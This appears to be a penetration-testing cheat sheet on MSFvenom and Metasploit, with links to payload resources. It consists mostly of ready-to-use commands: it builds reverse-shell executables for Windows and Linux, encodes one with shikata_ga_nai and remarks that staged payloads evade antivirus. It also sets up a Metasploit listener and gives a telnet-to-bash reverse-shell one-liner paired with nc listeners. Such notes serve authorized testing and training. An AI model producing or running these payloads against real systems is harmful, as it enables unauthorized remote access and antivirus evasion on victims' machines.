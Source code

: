 ## MSFvenom and Metasploit
Nice links:
[The great g0tmi1k's payload creator](https://github.com/g0tmi1k/msfpc)
[Common One Liners by Frizb](https://github.com/frizb/MSF-Venom-Cheatsheet)
[six2dex's pentestbook](https://pentestbook.six2dez.com/exploitation/payloads)

Non-Staged | Staged
--- | ---
shell_reverse_tcp | shell/reverse_tcp

Non-staged(Non-meterpreter) payloads are sent with the exploit and compatible with nc because they do not require the payload from msfconsole after the stager payload is executed on victim host. 
Staged are sent two or more parts, the first staging and connecting back to Attacker then subsequently transfering larger payload containing the remainder of the shellcode. Staged payload are more likely to evade AV due to size. 

MSFvemon 101
```bash
msfvenom -h # help
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p $payload --list=options 
msfvenom -p <PAYLOAD> <OPTIONS>

-p {<OS>/<arch>/<payload>}
#For example
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
msfvenom -p linux/x86/shell/reverse_tcp -f elf -o shell.elf LHOST=<listen-IP> LPORT=<listen-port>
#Example of -a and --encoder
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=ip LPORT=port -f exe -o shell.exe
```

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

## Telnet-to-Telnet
```bash
# Target
telnet $IP 9090 | /bin/bash | telnet $IP 9999
# Attacker
nc -lvnp 9999
nc -lvnp 9090
```

[lanmaster](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
